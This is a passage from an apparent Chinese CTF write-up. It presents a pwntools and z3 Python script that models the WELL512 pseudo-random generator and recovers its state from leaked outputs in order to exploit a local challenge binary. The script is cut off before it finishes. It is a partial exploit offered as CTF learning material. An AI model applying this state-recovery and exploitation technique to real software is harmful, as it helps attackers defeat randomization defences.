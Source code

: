 还可以通过 z3 对伪随机数进行预测，脚本如下：

```python
#!/usr/bin/env python
from pwn import *
from z3 import *
import time

context.log_level = 'debug'
context.arch = 'i386'
state = [BitVec("a1_{0}".format(i), 32) for i in range(16)]

def m(x):
    return p32(x + offset)

def well512(index):
    idx = (index+15) & 15
    a = state[index]
    c = state[(index+13) & 15]
    b = a ^ c ^ ((a << 16) & 0xffffffff) ^ ((c << 15) & 0xffffffff)
    c = state[(index+9) & 15]
    c ^= (c >> 11)
    state[(index+10) & 15] = c ^ b
    a = state[idx]
    d = ((32 * (c ^ b)) & 0xDA442D24) ^ c ^ b
    state[idx] = a ^ b ^ d ^ ((a << 2) & 0xffffffff) ^ (
        (b << 18) & 0xffffffff) ^ ((c << 28) & 0xffffffff)
    return idx

def well512_z3(index):
    idx = (index+15) & 15
    a = state[index]
    c = state[(index+13) & 15]
    b = a ^ c ^ (a << 16) ^ (c << 15)
    c = state[(index+9) & 15]
    c ^= LShR(c, 11)
    a = state[idx]
    state[(index+10) & 15] = b ^ c
    d = ((32 * (c ^ b)) & 0xDA442D24) ^ c ^ b
    a = state[idx]
    state[idx] = a ^ b ^ d ^ (a << 2) ^ (b << 18) ^ (c << 28)
    return idx

def find_state(recv):
    info('Start find state.')
    global state
    z = Solver()
    idx = 15
    for r in recv:
        idx = well512_z3(idx)
        z.add(state[idx] == r + 1)
    return z

p = process('./fuckup')

def choice(c):
    p.recvuntil('Quit\n')
    p.sendline(str(c))

r_list = []
for i in range(15):
    choice(3)
    sleep(0.1)
    r = int(p.recv(0x20)[0x11:0x19], 16)
```